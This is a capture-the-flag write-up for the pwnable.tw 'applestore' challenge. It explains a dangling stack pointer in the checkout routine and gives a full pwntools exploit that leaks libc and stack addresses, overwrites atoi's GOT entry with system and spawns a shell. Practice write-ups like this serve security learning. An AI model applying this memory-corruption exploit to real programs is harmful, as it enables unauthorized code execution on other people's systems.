# 📌 **applestore - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  
Check Security Protections
``` bash
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8046000)
    RUNPATH:    b'.'
    Stripped:   No
```

## Program Overview
The program is a shopping cart application with the following five main functions:
1. **Add Item**: Adds a new item to the cart.
2. **Delete Item**: Removes an item from the cart.
3. **Display Bought Items**: Lists all items currently in the cart.
4. **List Available Products**: Displays available products for purchase.
5. **Checkout**: Processes the cart for checkout (not officially supported).

The cart items are stored using a doubly linked list, where each newly added item is appended to the tail of the list. The structure of an item is as follows:
```c
typedef struct item {
    char* name;
    int price;
    struct item *next_item;
    struct item *prev_item;
} item;
```
# Vulnerability Analysis

The vulnerability lies in the **checkout function**. Here's how it works:

1. The function checks if the total price of all items in the cart equals **7174**.
2. If the condition is met, it adds a new item (e.g., "iPhone 8") to the cart.
3. However, the new item is **added differently** compared to the `add item` function:
   - In the `add item` function, items are allocated on the **heap**.
   - In the `checkout` function, the new item is created on the **stack**.
   - The stack address corresponds to the input buffer used in the `handler` function and the input buffer of the `cart` function.

This inconsistency creates an opportunity for exploitation.

---

# Exploitation Plan

## Step 1: Prepare the Cart
1. Add items to the cart such that their total price sums up to **7174**.
2. This will trigger the `checkout` function, causing it to add a new item to the cart with a **stack address** in the doubly linked list.

## Step 2: Leak a Libc Address
1. Send the input `"0x804b033"` to the `handler` function's input buffer.
   - The `atoi` function will convert `0x33` (stopping at the first non-numeric character) to the integer `3`.
   - The value `3` corresponds to the **delete item** function (third choice in the menu).
2. When the item is deleted, the program prints the `name` of the deleted item.
   - In this case, the `name` corresponds to the address `0x804b033`, which points to an entry in the **GOT (Global Offset Table)**.
   - This leaks the address of the `__libc_start_main` function, allowing us to calculate the base address of `libc`.

## Step 3: Leak a Stack Address
1. Use the same method as above, but this time leverage the `cart` function.
   - The previous method won't work because it leaks the address pointed to by `environ`, which doesn't have a constant offset to the rest of the stack for some reason.
   - We will need to leak the address of `environ` that's why we'll use the cart function by printing all the cart items and by injecting the addr of environ in the vuln buffer by send `y\x00` + the environ addr in libc.
   - This allows us to compute the **saved EBP pointer** in the `delete` function.

## Step 4: Overwrite `atoi` with `system`
1. Compute the offset of the **saved EBP** in the `delete` function from the leaked stack addr.
2. Overwrite the `atoi` GOT entry with the address of `system` since the relro check is `Partial RELRO`.
   - This is the easiest way to gain control, as the program uses `atoi` to convert user input into integers for menu choices.
   - After overwriting `atoi`, any input passed to it will be interpreted as a command to `system`.

---

We can use the following Python program to determine the list of items required to trigger the checkout vulnerability. The program recursively searches for a combination of items whose total price equals the target value (in this case, 7174).
``` python
In [21]: def f(index, items_prices , target_number, used) :
    ...:     if target_number == 0 :
    ...:         return True
    ...:     if index >= len(items_prices) :
    ...:         return False
    ...:     flag = 0
    ...:     if target_number >= items_prices[index] :
    ...:         used.append(items_prices[index])
    ...:         flag = f(index, l , target_number - items_prices[index], used)
    ...:         if not flag :
    ...:             used.pop()
    ...:     if not flag :
    ...:         return f(index+1, items_prices, target_number, used)
    ...:     return flag
```
    Args:
        index (int): Current index in the items_prices list.
        items_prices (list): List of available item prices.
        target_number (int): The target total price. (7174)
        used (list): List to store the selected items.

    Returns:
        bool: True if a valid combination is found, otherwise False.
        
## 🔹 **Exploit Code** 
        
``` python
#! /usr/bin/python3.10
from pwn import *

p = process("./applestore_patched")
# p = remote("chall.pwnable.tw", 10104)
libc_elf = ELF("./libc_32.so.6")
prog_elf = ELF("./applestore_patched")

l = [199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 499, 499, 499, 499, 499, 499, 399]
_map = {199: "1", 499: "3", 399: "4"}

for _ in l:
    p.sendlineafter("> ", "2")
    p.sendlineafter("Device Number> ", _map[_])

# pause()
p.sendlineafter("> ", "5")
p.sendlineafter("Let me check your cart. ok? (y/n) > ", "y")
p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 12)
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak[1:5], "little")
print("libc_leak @ ", hex(libc_leak))
libc_base = libc_leak - libc_elf.symbols["__libc_start_main"]
libc_elf.address = libc_base

atoi_got_addr = prog_elf.got["atoi"]
system_addr = libc_elf.symbols["system"]
environ = libc_elf.symbols["environ"]

p.sendafter("> ", p32(0x804b034, "little") + b"\x00" * 12)
p.sendlineafter("Let me check your cart. ok? (y/n) > ", b"y\x00" + p32(environ))
p.recvuntil("27: ")
stack_leak = int.from_bytes(p.recv(4), "little")
print("stack_leak @ ", hex(stack_leak))

delete_saved_ebp = stack_leak - 0x104
print("saved ebp ptr @ ", hex(delete_saved_ebp))

p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 4 + p32(delete_saved_ebp - 0x0c) + p32(atoi_got_addr + 0x22))
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")

p.sendlineafter("> ", p32(system_addr) + b";sh\x00")

p.interactive()
```
